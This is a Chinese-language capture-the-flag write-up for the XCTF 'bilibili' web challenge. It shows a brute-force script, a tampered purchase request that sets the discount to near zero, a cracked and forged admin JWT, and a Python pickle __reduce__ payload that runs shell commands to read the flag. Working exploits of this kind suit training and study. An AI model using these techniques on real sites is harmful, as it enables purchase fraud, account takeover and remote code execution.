 # bilibili

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e443abc9-92d0-4db2-a44b-823e94a108ef_2)

这题真的是……太草了。

进入网站，我只能说低估了出题人的想象力。（首页那个视频看了好多遍，刻在dna里了还是想看:D）正经起来，有一句提示说要买lv6。翻一下，没看见lv6的小电视啊。不过在翻页后发现url的page参数改变，可以爆破这个参数。检查元素发现lv4的小电视名字叫lv4.png，那lv6的小电视一定叫lv6.png了，根据这个线索爆破。

```python
import requests
target = "http://61.147.171.105:61450/shop?page=%d"
for i in range(500):
    res = requests.get(target%(i)).text
    if "lv6.png" in res:
        print(target%(i))
        break
```

得到page参数为181。注册一个账号，去买个看看。一看发现根本买不起。题目描述说有逻辑漏洞，看逻辑漏洞怎么着都要抓个包看看吧。点击购买，在购物车结算时抓包。

```
POST /shopcar HTTP/1.1
Host: 61.147.171.105:61450
Content-Length: 116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:61450
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:61450/shopcar
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _xsrf=2|a3eb2d4a|221d581f374175d18ce6420b72a10aca|1665803998; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEifQ.B-OZYHuG5HRg_eOm_FujDz6VVR6xpA1ENW4jZ5D4qxo; commodity_id="2|1:0|10:1665804035|12:commodity_id|8:MTYyNA==|dcb1ad383cf50d5af34398456446f58cf5e919cabaf7c42c7430c9fd418d620e"
Connection: close

_xsrf=2%7C5a31e538%7Cdbc7906dce9bbda3753c8a798b7bc2b8%7C1665803998&id=1624&price=1145141919.0&discount=0.8
```

发现post参数有价格和折扣。改价格发现没用，那就把折扣改成0.00000000000001，结果就买到了。重定向到/b1g_m4mber页面。然而提示只有admin可以访问。一般ctf判断admin用什么呢？cookie之类的东西。看看cookie，只有可能是JWT了。[在线](https://jwt.io/)查看jwt的值。

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "a"
}
```

把username改成admin试试，发现不行。那就是需要secret key了，用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)爆破key值，得到1Kun。回到上面那个网站，填写key值，得到的内容粘贴进原来的jwt，刷新后就变成了管理员。继续检查元素，发现给了源码。

```html
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip"><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
```

点击链接，下载到源码。既然我们在admin界面，优先看Admin.py。

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

原来python里也有[反序列化](https://misakikata.github.io/2020/04/python-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/),标志就是pickle库。pickle.loads加载一个之前被pickle.dumps后的序列化字符串，重点在于会调用加载对象的__reduce__方法。举个例子。

```python
import os
import pickle
class test(object):
    def __reduce__(self):
        return (os.system,('whoami',))
a=test()
payload=pickle.dumps(a)
print(payload)
pickle.loads(payload)
```

我们dumps的对象a是test类的实例，test类定义的__reduce__方法会执行whoami命令（__reduce__返回值第一个是要调用的函数，第二个是调用函数的参数）。那在loads的时候，就会调用whoami命令。题目的情况和这里差不多，pickle毫无过滤就loads了become数据，那就可以命令执行了。准备payload，注意服务器使用的是python2，因为给的源码也是python2，所以用python2构建payload。先ls，知道文件名后cat flag。

```python
import urllib2
import pickle
class A(object):
    def __reduce__(self):
        # a = "__import__('os').popen('ls').read()"
        a = "__import__('os').popen('cat /flag.txt').read()"
        return (eval,(a,))

print(urllib2.quote(pickle.dumps(A()))) 
```

```
POST /b1g_m4mber HTTP/1.1
Host: 61.147.171.105:61450
Content-Length: 200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:61450
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:61450/b1g_m4mber
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _xsrf=2|a3eb2d4a|221d581f374175d18ce6420b72a10aca|1665803998; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
Connection: close

_xsrf=2%7C82de3f5d%7C03284a08167467c6add3501c539418dd%7C1665803998&become=c__builtin__%0Aeval%0Ap0%0A%28S%22__import__%28%27os%27%29.popen%28%27cat%20/flag.txt%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

- ### Flag
  > flag{dfe54e6fe1e34f1e8fb03c8b50e963bd}